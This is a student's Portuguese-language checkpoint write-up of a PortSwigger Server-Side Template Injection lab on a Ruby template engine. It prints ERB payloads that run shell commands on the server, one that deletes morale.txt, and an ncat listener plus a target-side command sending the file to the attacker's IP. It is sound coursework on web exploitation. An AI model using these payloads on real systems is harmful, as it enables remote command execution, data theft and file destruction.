 # FIAP - 3° Checkpoint - Server-Side Template Injection

## Introdução
Checkpoint realizado com o intuito de colocar em prática todos os conhecimentos sobre vulnerabilidades web na matéria de Web Exploit, ministrada pelo [Professor Rafael Trassi](https://www.linkedin.com/in/rafael-trassi/).

## Feito por

- Matheus Rosa

## Vulnerabilidade

A Server-Side Template Injection ocorre quando um invasor é capaz de usar a sintaxe nativa do modelo para injetar uma carga maliciosa em um modelo, que é então executado no lado do servidor.

Os mecanismos de modelo são projetados para gerar páginas da web combinando modelos fixos com dados voláteis. Ataques de injeção de modelo no servidor podem ocorrer quando a entrada do usuário é concatenada diretamente em um modelo, em vez de ser transmitida como dados. Isso permite que invasores injetem diretivas de modelo arbitrárias para manipular o mecanismo de modelo, muitas vezes permitindo que eles assumam o controle total do servidor. Como o nome sugere, as cargas úteis de injeção de modelo no lado do servidor são entregues e avaliadas no lado do servidor, tornando-as potencialmente muito mais perigosas do que uma injeção típica de modelo no lado do cliente.

## Print da Conta 
* Envie um print da área de detalhes da conta após ter logado
<img src="imagens/Imagem1.png">

# Exercício 01 - Lab

Link: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic  

## 01 - Uma captura de tela completa com a mensagem de erro produzida pela aplicação quando um item está esgotado no estoque.

<img src="imagens/Imagem2.png">

## 02 - Uma captura de tela completa como prova de que você consegue realizar operações simples ou multiplicar uma string (exemplo: 'FIAP' * 10). Exiba o seu payload na barra de endereços.

<img src="imagens/Imagem3.png">

## 03 - Envie um print mostrando qual o hash MD5 do arquivo morale.txt.

Comando Utilizado: 
```
<%= system('md5sum morale.txt') %>
```

<img src="imagens/Imagem4.png">

## 04 - Responda qual o tipo de arquivo é o morale.txt.

Comando Utilizado: 
```
<%= system('file morale.txt') %>
```
__R: morale.txt é um arquivo openssl enc'd data with salted password__

## 05 - Demonstre como você copiaria o arquivo morale.txt do servidor do lab. Também forneça prova de que este arquivo foi copiado na sua própria máquina demonstrando as saídas dos comandos file, ls e md5sum no seu próprio terminal.

__R: Para transferir o arquivo do servidor para a minha maquina local eu utilizaria o ncat. Basicamente abriria uma porta em modo listening no meu kali e na URL passaria o comando:__

Kali:
```
ncat -nvlp 1337
````
Este comando irá abrir e ficar escutando a porta 1337 da máquina local

Máquina Alvo:
```
ncat IP < morale.txt
````
O comando ira se conectar com o Kali e enviará o arquivo morale.txt após conexão.

### Prints

- md5sum
  <img src="imagens/Imagem4.png">
- file
  <img src="imagens/Imagem5.png">
- ls
  <img src="imagens/Imagem6.png">

## 06 - Forneça o payload utilizado para completar o primeiro laboratório e a evidência que você conseguiu completá-lo.

Comando Utilizado: 

```
<%= system(' rm morale.txt ') %>
```

<img src="imagens/Imagem7.png">

## 07 - Em qual linguagem o sistema de template está sendo executado?

__R: Ele foi escrito em RUBY__

<img src="imagens/Imagem8.png">

